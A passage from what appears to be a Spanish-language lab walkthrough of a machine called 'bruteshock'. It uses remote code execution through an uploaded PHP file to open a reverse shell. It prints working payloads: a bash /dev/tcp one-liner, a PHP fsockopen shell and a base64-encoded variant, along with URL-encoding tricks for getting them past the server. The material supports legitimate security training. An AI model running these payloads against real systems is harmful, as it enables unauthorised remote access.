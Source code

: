 En nuestro servidor que iniciamos con `python` deberíamos ver un `GET` a nuestro archivo `rce.php`

![Pasted image 20241105231215](https://github.com/user-attachments/assets/0ce98988-aeb2-4bc9-ba34-f51b92387bf6)

## Remote Code Execution

Ahora mediante la web accedemos al archivo `rce.php`, podemos hacerlo o bien desde la web o mediante `curl`

~~~ bash
curl -X GET http://bruteshock.local/pruebasUltraSecretas/exec.php\?cmd=id
~~~

![Pasted image 20241105231441](https://github.com/user-attachments/assets/6cf21703-7e9b-4d0d-8ae5-7e651e6419c5)

![Pasted image 20241105131749](https://github.com/user-attachments/assets/7b23ebb3-50b9-4d67-aac4-832572090867)

## Reverse Shell

Podemos intentar enviarnos una `shell` mediante este parámetro, para ello modificaremos el siguiente payload

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~

![Pasted image 20241105232028](https://github.com/user-attachments/assets/8ce22f4c-4c2a-4e06-a410-dcc4c3df6616)

Nota que cambié el caracter `&` por `%26` para que pueda ejecutarse correctamente en el servidor

![Pasted image 20241105231953](https://github.com/user-attachments/assets/81bad5bc-b764-4a8b-8cf1-d3d79f502670)

Si entramos de esta forma al poco tiempo de establecer la `shell`, nos concluye la conexión, esto puede ser porque el servidor está bloqueando ciertos tipos de conexiones

Usaremos una `reverse shell` con `php` para no depender de un TTY, el comando sería el siguiente

~~~ bash
php -r '$sock=fsockopen("10.88.0.1",4444);exec("/bin/bash -i <&2 >&3 2>&4");'
~~~

Pero tampoco podremos ejecutarlo directamente, es por eso que una opción sería usar `base64` para primero decodificar la `shell` y luego interpretarla en el servidor

~~~ bash
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=" | base64 -d | bash
~~~

**Hagamos unas pruebas antes de establecer la `shell`, primero necesitamos entender que debemos modificar la URL para que nuestra explotación pueda acontecerse**

- Nota que en medio de la cadena en `base64` que hay un caracter (`+`) que limita nuestra  ejecución, es por eso que **debemos reemplazarlo** con `%2B`, que es su traducción en `Url Encoding`

**Ejecutaremos el comando sin aplicar `| bash` para ver el contenido de la cadena que se decodifica**

